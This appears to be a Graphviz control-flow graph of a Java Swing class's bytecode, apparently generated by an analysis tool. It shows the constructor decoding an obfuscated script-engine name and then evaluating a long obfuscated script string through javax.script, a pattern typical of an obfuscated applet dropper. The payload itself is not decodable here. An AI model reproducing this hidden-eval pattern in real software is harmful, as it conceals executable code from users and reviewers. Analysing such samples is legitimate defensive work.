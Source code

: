 digraph "" {
    "r0 := @this: bytecodes"
    "load.r r0"
    "r0 := @this: bytecodes"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"\u000by\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"\u000by\"";
    "staticinvoke <ggg: java.lang.String M(java.lang.String)>"
    "push \"\u000by\""->"staticinvoke <ggg: java.lang.String M(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "staticinvoke <ggg: java.lang.String M(java.lang.String)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r $r4"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r $r4";
    "load.r $r4"
    "store.r $r4"->"load.r $r4";
    "push \"KIZUOM\""
    "load.r $r4"->"push \"KIZUOM\"";
    "staticinvoke <bytecodes: java.lang.String M(java.lang.String)>"
    "push \"KIZUOM\""->"staticinvoke <bytecodes: java.lang.String M(java.lang.String)>";
    "staticinvoke <bytecodes: java.lang.String M(java.lang.String)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push \"~\tc\u0012$\u0015e2~\u0013c\u000fmA7Al\u0014d\u0002~\u0008e\u000f\\\"H*\u001a\u0003\u000bk\u0017kOf\u0000d\u0006$2s\u0012~\u0004gOy\u0004~2o\u0002\u007f\u0013c\u0015s,k\u000fk\u0006o\u0013\\\"\u000f\u007f\rfH1hk\u0011z\ro\u0015$\u0002k\rf#k\u0002aI#Z\u0003\u0013o\u0015\u007f\u0013dAY\u0015x\u0008d\u0006$\u0007x\u000eg\\\"b\u0000x\\\"e\u0005oI3V*J*,k\u0015bOx\u000e\u007f\u000fnIG\u0000~\t$\u0013k\u000fn\u000egI#A A8T#H1\u001c1\u0004*\\*\u000fo\u0016*$x\u0013e\u0013\\\"H1\u0004$\fo\u0012y\u0000m\u0004*\\*\u0015b\u0008yZo\""
    "pop"->"push \"~\tc\u0012$\u0015e2~\u0013c\u000fmA7Al\u0014d\u0002~\u0008e\u000f\\\"H*\u001a\u0003\u000bk\u0017kOf\u0000d\u0006$2s\u0012~\u0004gOy\u0004~2o\u0002\u007f\u0013c\u0015s,k\u000fk\u0006o\u0013\\\"\u000f\u007f\rfH1hk\u0011z\ro\u0015$\u0002k\rf#k\u0002aI#Z\u0003\u0013o\u0015\u007f\u0013dAY\u0015x\u0008d\u0006$\u0007x\u000eg\\\"b\u0000x\\\"e\u0005oI3V*J*,k\u0015bOx\u000e\u007f\u000fnIG\u0000~\t$\u0013k\u000fn\u000egI#A A8T#H1\u001c1\u0004*\\*\u000fo\u0016*$x\u0013e\u0013\\\"H1\u0004$\fo\u0012y\u0000m\u0004*\\*\u0015b\u0008yZo\"";
    "push \"~\tc\u0012$\u0015e2~\u0013c\u000fmA7Al\u0014d\u0002~\u0008e\u000f\\\"H*\u001a\u0003\u000bk\u0017kOf\u0000d\u0006$2s\u0012~\u0004gOy\u0004~2o\u0002\u007f\u0013c\u0015s,k\u000fk\u0006o\u0013\\\"\u000f\u007f\rfH1hk\u0011z\ro\u0015$\u0002k\rf#k\u0002aI#Z\u0003\u0013o\u0015\u007f\u0013dAY\u0015x\u0008d\u0006$\u0007x\u000eg\\\"b\u0000x\\\"e\u0005oI3V*J*,k\u0015bOx\u000e\u007f\u000fnIG\u0000~\t$\u0013k\u000fn\u000egI#A A8T#H1\u001c1\u0004*\\*\u000fo\u0016*$x\u0013e\u0013\\\"H1\u0004$\fo\u0012y\u0000m\u0004*\\*\u0015b\u0008yZo\""->"staticinvoke <ggg: java.lang.String M(java.lang.String)>";
    "staticinvoke <ggg: java.lang.String M(java.lang.String)>"->"load.r $r4";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r $r4"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"->"pop";
    "return"
    "pop"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <bytecodes: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"->"return";
}
